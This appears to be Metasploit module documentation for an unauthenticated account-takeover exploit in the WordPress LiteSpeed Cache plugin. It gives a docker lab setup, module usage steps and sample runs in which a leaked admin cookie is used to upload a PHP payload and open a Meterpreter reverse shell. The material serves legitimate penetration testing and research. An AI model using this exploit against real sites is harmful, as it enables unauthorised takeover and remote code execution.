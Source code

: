 ## Vulnerable Application
This module exploits an unauthenticated account takeover vulnerability in LiteSpeed Cache, a Wordpress plugin that currently
has around 6 million active installations. In LiteSpeed Cache versions prior to 6.5.0.1, when the Debug Logging
feature is enabled, the plugin will log admin cookies to the /wp-content/debug.log endpoint which is accessible
without authentication. The Debug Logging feature in the plugin is not enabled by default. The admin cookies
found in the debug.log can be used to upload and execute a malicious plugin containing a payload.

### Setup
Spin up a WordPress container with the following docker-compose file:
```yml
version: '3.8'

services:
  db:
    image: mysql:latest
    volumes:
      - db_data:/var/lib/mysql
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: example_root_password
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wordpress_user
      MYSQL_PASSWORD: example_password

  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    ports:
      - "8000:80"
    restart: always
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wordpress_user
      WORDPRESS_DB_PASSWORD: example_password
      WORDPRESS_DB_NAME: wordpress
    volumes:
      - wordpress_data:/var/www/html

volumes:
  db_data:
  wordpress_data:
```

Download, install and activate the vulnerable LiteSpeed Cache plugin: https://downloads.wordpress.org/plugin/litespeed-cache.6.3.zip
Once installed a LiteSpeed menu bar item should appear on the left hand side of the application. When clicked a drop down
should appear. Select "ToolBox", then select "Debug Settings". Then switch the "Debug Log" feature to "On".

Sign out of WordPress and when you reauthenticate your admin cookie will be logged to /wp-content/debug.log

## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/wp_litespeed_cookie_theft`
1. Set the `RHOST`, `LHOST` and `RPORT`
1. Run the module
1. Receive a Meterpreter session in the context of the user running the WordPress site.

## Scenarios
### ARCH_PHP Target - LiteSpeed Cache 6.3 - WordPress 6.4.3
```
msf6 exploit(multi/http/wp_litespeed_cookie_theft) > run

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] One or more potential admin cookies were found
[+] The target is vulnerable. Found and tested valid admin cookie, we can upload and execute a payload
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/qSNzhabMTP/OiDynMUetY.php...
[*] Sending stage (39927 bytes) to 192.168.1.67
[+] Deleted OiDynMUetY.php
[+] Deleted qSNzhabMTP.php
[+] Deleted ../qSNzhabMTP
[*] Meterpreter session 7 opened (192.168.1.67:4444 -> 192.168.1.67:64935) at 2024-09-11 23:18:14 -0700

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 29292f368fe3
OS          : Linux 29292f368fe3 6.10.4-linuxkit #1 SMP PREEMPT_DYNAMIC Mon Aug 12 08:48:58 UTC 2024 x86_64
Meterpreter : php/linux
```

### ARCH_CMD Target - LiteSpeed Cache 6.3 - WordPress 6.4.3
```
msf6 exploit(multi/http/wp_litespeed_cookie_theft) > run

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] One or more potential admin cookies were found
[+] The target is vulnerable. Found and tested valid admin cookie, we can upload and execute a payload
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/IVStOPtwuq/WvXecICkgw.php...
[*] Sending stage (3045380 bytes) to 192.168.1.67
[+] Deleted WvXecICkgw.php
[+] Deleted IVStOPtwuq.php
[+] Deleted ../IVStOPtwuq
[*] Meterpreter session 6 opened (192.168.1.67:4444 -> 192.168.1.67:64884) at 2024-09-11 23:14:49 -0700

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.22.0.3
OS           : Debian 12.5 (Linux 6.10.4-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
